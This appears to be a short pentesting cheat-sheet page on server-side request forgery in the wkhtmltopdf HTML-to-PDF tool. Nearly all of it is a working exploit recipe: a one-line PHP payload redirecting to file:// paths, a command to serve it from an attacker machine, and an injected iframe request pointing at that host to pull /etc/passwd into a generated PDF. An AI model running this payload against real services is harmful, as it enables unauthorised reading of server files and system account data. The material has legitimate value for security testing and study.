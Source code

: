 ```yaml
---
title: wkhtmltopdf SSRF
description: wkhtmltopdf is a command line tool to render HTML into PDF using Qt WebKit. It is vulnerable to SSRF.
tags:
    - Web
ref:
date: 2023-04-08
draft: false
---
```


## Exploitation

Create a PHP payload to read local file.

```php
<?php header('location:file://'.$_REQUEST['x']); ?>
```

Then start web server in local machine.

```bash
php -S 0.0.0.0:8000
```

Send request to where wkhtmltopdf is affected. For example,

```bash
/htmltopdf?item=<iframe src=http://10.0.0.1:8000/test.php?x=/etc/passwd width=1000px height=1000px></iframe>
```

Now we can see the system users list via a generated PDF.